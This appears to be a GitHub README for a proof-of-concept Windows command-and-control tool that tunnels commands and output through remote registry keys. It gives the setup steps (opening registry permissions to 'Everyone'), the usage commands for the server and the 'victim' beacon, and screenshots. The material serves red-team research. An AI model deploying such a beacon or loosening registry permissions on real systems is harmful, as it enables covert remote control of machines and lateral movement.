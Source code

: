 # Everything Can Be A Shell... An asynchronous shell at least...


## Disclaimer
The shells in this repository are all Proof-of-Concept and have only been tested in my own lab. Enjoy :)
*... Also, at this moment, the repository only contains a single shell using Windows Registry keys. However, I hope to add more in the future. *

## The Concept
This repository is made to explore untraditional ways of establishing command and control (C2) on Microsoft Windows systems. The shells in this repository are asynchronous just like Cobalt Strikes shells. The client (beacon) will check-in at a given interval (sleep-timer) for any new commands from the server (C2). If a command is found, the beacon will execute it and post the result back to the server. 

## Shell 1: C2 using Windows registry keys

### Brief description: 
This shell is based on Windows Registry keys. Yes, registry keys as in regedit.exe. The idea comes from the fact, that Windows allows for users (with the correct permissions) to read, write and/or delete registry keys and values on remote systems using the WinReg Protocol (MS-RRP). The "protocol" is built on top of the RPC protocol and is described by Microsoft: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

**Demonstration:**
(https://www.youtube.com/watch?v=jOPCbK-WF1M): The C2 server is running on the left while the beacon is on the right

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the client needs to be permitted to make changes to a user-defined registry key.

**Limitations:** 
Since the traffic is based on RPC and SMB, it should only really be suitable for lateral movement on local networks. 

**Security considerations:**
The permissions allows for anyone to connect to the servers registry database. Each registry key is protected by its own SACL, and so the server is only as insecure as the applied permissions on each key. The consequences could be dire :D

### How it works:
1. When the server starts, the Remote Registry Service is enabled and started. 
2. A registry key HKLM\Software\RegistryC2\\<user-defined> is created along with the following values: cmd, output & sleep. The user-defined registry key is specific to a single beacon and could be compared to setting up a listener.
3. Read/Write permissions are then set for the user "Everyone" on this newly created registry key.
4. Permissions are likewise set on the key: HKLM\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that any client can authenticate to the server. (Note: On exiting/closing the server, these permissions are removed again.) 
5. When executing the beacon on the victim machine, it will connect to the C2 server using the WinReg protocol, and read the newly created registry key for the value of "sleep", to determine how often to check-in. 
6. When the timer is up, the client checks-in and executes the command found in the "cmd"-value. 
7. The result of the command is written as a string to the "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.

### Usage:
**Setup the server on the attackers machine (listener/C2):**
``` 
RegC2Server.exe <Registry key name to use with the client>
Example: RegC2Server.exe victim01
```
**Starting the client on the victim (beacon):**
```
RegC2Client.exe <host> <Registry key name used to start the server>
Example: RegC2Client.exe ws01 victim01
```

**Since this is a PoC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


### Screenshots:
**Starting the server:**  
Below, the server is started with the argument "victim01". The Remote Registry Service is attempted to be started, and the necessary permissions are put in place. The Registry key HKLM\Software\RegistryC2\victim01 is created with its necessary values: cmd, output & sleep. 
<p align="center">
<img src="https://user-images.githubusercontent.com/35890107/186360543-a9bf7634-ea0d-4a0c-a9e5-4956701e0af3.png" width=60% height=60%>
</p>


**Permissions are set:**  
Special permissions are set for "Everone" on the Registry key "RegistryC2\victim01".  
<p align="center">
<img src="https://user-images.githubusercontent.com/35890107/186360608-0ac3a430-912b-4a19-824d-3cfdedb5201b.png" width=60% height=60%>
</p>


**Beacon running on client:**  
The beacon is started on the victims machine. The beacon has updated its sleep-timer, found the command to execute and posted the result back to the C2-server.
<p align="center">
<img src="https://user-images.githubusercontent.com/35890107/186356461-715947b2-5926-40fe-9d9f-2264ebe20476.png" width=30% height=30%>
</p>


**Output is posted back to the server:**  
<p align="center">
<img src="https://user-images.githubusercontent.com/35890107/186360638-91884a40-eaa8-4169-a148-95d14b26b894.png" width=60% height=60%>
</p>


**Another command is executed:**  
<p align="center">
<img src="https://user-images.githubusercontent.com/35890107/186360670-a328752d-8221-4811-8ae1-0453c211ff03.png" width=60% height=60%>
</p>


**Exiting server:**  
The server is being closed and the Registry keys are no longer available.
<p align="center">
<img src="https://user-images.githubusercontent.com/35890107/186360706-dce99907-6027-4bad-abc4-ade26429fe41.png" width=60% height=60%>
</p>


### How does it look in Wireshark? 

